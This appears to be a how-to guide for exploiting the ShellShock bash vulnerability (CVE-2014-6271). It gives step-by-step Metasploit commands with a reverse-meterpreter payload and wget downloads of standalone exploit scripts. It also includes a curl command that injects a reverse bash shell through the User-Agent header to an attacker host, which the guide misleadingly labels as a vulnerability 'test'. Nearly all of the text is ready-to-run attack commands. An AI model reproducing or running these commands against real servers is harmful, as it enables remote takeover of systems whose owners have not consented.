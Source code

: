 The ShellShock vulnerability (CVE-2014-6271) affects the Bash shell, allowing attackers to execute arbitrary commands via specially crafted environment variables. Here’s a guide to using ShellShock exploit tools, including options and examples.

### **ShellShock Exploit (CVE-2014-6271)**

#### **Using Metasploit Framework for ShellShock**

1. **Search for ShellShock Exploit:**
   - **Description:** Search for the ShellShock exploit module in Metasploit.
   - **Command:**
     ```bash
     search shellshock
     ```
   - **Example:**
     ```bash
     search shellshock
     ```

   - **Explanation:** 
     - Lists available modules related to ShellShock.

2. **Use ShellShock Exploit Module:**
   - **Description:** Select the ShellShock exploit module.
   - **Command:**
     ```bash
     use exploit/multi/http/shellshock
     ```
   - **Example:**
     ```bash
     use exploit/multi/http/shellshock
     ```

   - **Explanation:** 
     - Chooses the ShellShock exploit module for HTTP services.

3. **Show Module Options:**
   - **Description:** Display the options for the ShellShock exploit module.
   - **Command:**
     ```bash
     show options
     ```
   - **Example:**
     ```bash
     show options
     ```

   - **Explanation:** 
     - Lists configuration options required for the exploit.

4. **Set Exploit Options:**
   - **Description:** Configure the required options for the exploit.
   - **Command:**
     ```bash
     set RHOSTS <target_ip>
     set TARGETURI <target_uri>
     set PAYLOAD <payload>
     ```
   - **Example:**
     ```bash
     set RHOSTS 192.168.1.100
     set TARGETURI /cgi-bin/test.cgi
     set PAYLOAD php/meterpreter/reverse_tcp
     ```

   - **Explanation:** 
     - Sets the target IP address, target URI, and payload type.

5. **Run the Exploit:**
   - **Description:** Execute the ShellShock exploit.
   - **Command:**
     ```bash
     run
     ```
   - **Example:**
     ```bash
     run
     ```

   - **Explanation:** 
     - Runs the configured exploit against the target.

#### **Using Standalone ShellShock Exploits**

For standalone ShellShock exploits, you might use various public tools or scripts. These tools are generally used as follows:

1. **Download the Exploit:**
   - **Description:** Obtain a ShellShock exploit script.
   - **Command:**
     ```bash
     wget https://example.com/shellshock_exploit.py
     ```
   - **Example:**
     ```bash
     wget https://github.com/yourrepo/shellshock_exploit.py
     ```

   - **Explanation:** 
     - Downloads the exploit script from a source repository.

2. **Run the Exploit Script:**
   - **Description:** Execute the ShellShock exploit script.
   - **Command:**
     ```bash
     python shellshock_exploit.py -u <target_url> -p <payload>
     ```
   - **Example:**
     ```bash
     python shellshock_exploit.py -u http://192.168.1.100/cgi-bin/test.cgi -p "id"
     ```

   - **Explanation:** 
     - Runs the exploit against the target URL with the specified payload.

3. **Test a Vulnerable Server:**
   - **Description:** Check if a server is vulnerable to ShellShock.
   - **Command:**
     ```bash
     curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1" <target_url>
     ```
   - **Example:**
     ```bash
     curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.10/4444 0>&1" http://192.168.1.100/cgi-bin/test.cgi
     ```

   - **Explanation:** 
     - Sends a crafted User-Agent header to test for the ShellShock vulnerability.

#### **Summary of ShellShock Commands**

| **Tool**                 | **Command**                                           | **Description**                                | **Example**                                      |
|--------------------------|-------------------------------------------------------|------------------------------------------------|--------------------------------------------------|
| **Metasploit (Exploit)** | `search shellshock`                                  | Search for ShellShock exploit module.         | `search shellshock`                              |
|                          | `use exploit/multi/http/shellshock`                   | Use ShellShock exploit module.                | `use exploit/multi/http/shellshock`              |
|                          | `show options`                                       | Show options for the exploit.                 | `show options`                                   |
|                          | `set RHOSTS <target_ip>`                             | Set target IP address.                        | `set RHOSTS 192.168.1.100`                       |
|                          | `set TARGETURI <target_uri>`                         | Set target URI.                               | `set TARGETURI /cgi-bin/test.cgi`                |
|                          | `set PAYLOAD <payload>`                              | Set payload type.                             | `set PAYLOAD php/meterpreter/reverse_tcp`        |
|                          | `run`                                                | Execute the exploit.                          | `run`                                            |
| **Standalone Exploit**   | `wget https://example.com/shellshock_exploit.py`      | Download the ShellShock exploit script.       | `wget https://github.com/yourrepo/shellshock_exploit.py` |
|                          | `python shellshock_exploit.py -u <target_url> -p <payload>` | Run the ShellShock exploit script.            | `python shellshock_exploit.py -u http://192.168.1.100/cgi-bin/test.cgi -p "id"` |
|                          | `curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1" <target_url>` | Test a server for ShellShock vulnerability.   | `curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.10/4444 0>&1" http://192.168.1.100/cgi-bin/test.cgi` |

---

The ShellShock vulnerability requires careful testing and remediation. Using Metasploit or standalone scripts can help identify and exploit this vulnerability to assess the security of affected systems.

